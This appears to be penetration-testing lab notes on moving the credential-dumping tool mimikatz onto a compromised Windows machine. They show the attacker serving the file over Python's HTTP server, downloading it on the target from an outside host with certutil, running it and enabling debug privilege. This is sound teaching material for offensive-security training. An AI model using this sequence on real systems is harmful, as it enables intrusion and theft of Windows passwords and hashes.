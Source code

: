 We wanted to transfer mimikatz.exe. Mimikatz.exe is a post-exploitation tool that is used to dump Windows hashes and passwords that are stored in memory.

Tab3 : 

```
cd /usr/share/windows-resources/mimikatz/x64/
ls
```

How would I transfer this file onto the Windows target system?

Tab2 : Whenever you're transferring a file to a target system, always do it within the Temp directory.

```
C:\hfs>cd C:\\
C:\>dir
C:\>mkdir Temp
C:\>cd Temp
C:\Temp>
```

Tab 3 : 

```
python3 -m http.server 80
```

Tab 2 : How do we download it? The best utility that comes pre-packaged on pretty much all versions of Windows is the `certutil` utility.

The `certutil` utility is used for a wide range of functionality. However, one of the cool features that it provides to users is the ability download a file from a web server.

Make sure you're in the directory where you want to download the file.

`-f`: Specify that you want to download a file.

You then need to specify what you want to call the file after it's downloaded. Because, on Windows, you need to specify a file name for the file that you're downloading.

```
C:\Temp>certutil -urlcache -f http://10.10.5.2/mimikatz.exe mimikatz.exe
```

We've successfully transferred the mimikatz executable from our Kali Linux system onto the target system.

```
C:\Temp>dir
```

```
C:\Temp>.\mimikatz.exe
```

I can then check whether I have the necessary permissions to execute it or to use it.

```
mimikatz # privilege::debug
```
